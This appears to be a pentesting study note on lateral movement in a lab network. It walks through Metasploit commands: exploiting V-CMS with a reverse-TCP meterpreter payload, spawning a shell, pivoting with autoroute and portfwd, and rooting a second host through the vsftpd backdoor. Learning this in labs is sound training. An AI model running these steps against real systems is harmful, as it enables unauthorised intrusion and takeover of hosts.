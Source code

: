 ```yaml
---
title: Lateral movements
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
---
```


# Lateral movements

Lateral movement is a technique that adversaries use, after compromising an endpoint, to extend access to other hosts or applications in an organization.

![lateral-movement.png](img/lateral-movement.png)


## using metasploit

1. Get our ip

```bash
ip a 
# 192.64.166.2
```

2. Get machine ip 

```bash
ping demo.ine.local
# 192.64.166.3
```

3. Enumerate services in the target machine  

```bash
nmap -sV -sS -O 192.64.166.3
# open ports: 80 and 3306.
```

4. Go further on port 80

```bash
nmap 
# In the scan you will see: V-CMS-Powered by V-CMS  and PHPSESSID: httponly flag not set
```

5. Launch metasploit and search for v-cms

```bash
service postgresql start
msfconsole -q
```

```msf
search v-cms
```

6. Use the exploit exploit/linux/http/vcms_upload, configure it and run it

```msf
use exploit/linux/http/vcms_upload
show options
```

```msf
set RHOST 192.64.166.3
set TARGETURI /
set LHOST 192.64.166.2
set payload php/meterpreter/reverse_tcp
run
```

7. You will get a limited meterpreter. Access to the shell and print the flag

```msf
meterpreter> shell
> cat /root/flag.txt
# 4f96a3e848d233d5af337c440e50fe3d
```

8. Map other possible interfaces in the machine. Since ifconfig does not work, spawn the shell and try again

```bash
ifconfig 
# does not work
```

```bash
ipconfig
# does not work
```

```bash
which python
# it’s located under /bin, so we can use python to spawn the shell
```

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
$root@machine> ifconfig
# it tells us about another interface: 192.182.147.2
```


### route

9. Add tunnel from interface 192.64.166.3 (which is session 1 of meterpreter) and the discovered interface, 192.182.147.2 with the utility route:

```bash
$root@machine> exit
```

```msf
meterpreter> run autoroute -s 192.182.147.0 -n 255.255.255.0
# you can also add a route out of the meterpreter. In that case you need to specify the meterpreter session: route add 192.182.147.0 .0 255.255.255.0 1
```

10. Background the meterpreter session and check if the route is added successfully to the metasploit's routing table.

```msf
meterpreter> background
msf> route print
```

11. Run auxiliary TCP port scanning module to discover any available hosts (From IP .3 to .10). And, if any of ports 80, 8080, 445, 21 and 22 are open on those hosts.

```msf
msf> use auxiliary/scanner/portscan/tcp

msf  auxiliary/scanner/portscan/tcp > set PORTS 80, 8080, 445, 21, 22

msf  auxiliary/scanner/portscan/tcp > set RHOSTS 192.69.228.3-10

msf  auxiliary/scanner/portscan/tcp > exploit
# Give us ports 21 and 22 open at 192.182.147.3
```

### portfwd

12. In order to reach the discovered target, we need to fordward remote machine port to the local machine port. We want to target port 21 of that machine so we will forward remote port 21 to the local port 1234. This is done with the utility portfwd from meterpreter

```msf
msf  auxiliary/scanner/portscan/tcp > sessions -i 1

meterpreter> portfwd
# Tell you  there is none configured

meterpreter> portfwd add -l 1234 -p 21 -r 192.182.147.3
# -l: local port 
# -p 21 The port we are targeting in our attack 
# -r the remote host

meterpreter> portfwd list
# It tells the active Port Forwards. Now, scan the local port using Nmap
```

13. Run nmap on the forwarded local port to identify the service name

```msf
meterpreter> background

msf> nmap -sS -sV -p 1234 localhost
# It tells you the ftp version: vsftpd 2.0.8 or later
```

14. Search for vsftpd exploit module and exploit the target host using vsftpd backdoor exploit module.

```msf
msf > search vsftpd 
msf> use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit/unix/ftp/vsftpd_234_backdoor>   set RHOSTS 192.69.228.3
msf exploit/unix/ftp/vsftpd_234_backdoor> exploit

# Sometimes, the exploit fails the first time. If that happens then please run the exploit again.

$> id
# you are root.
```

15. Print the flag

```msf
$> cat /root/flag.txt
# 58c7c29a8ab5e7c4c06256b954947f9a
```
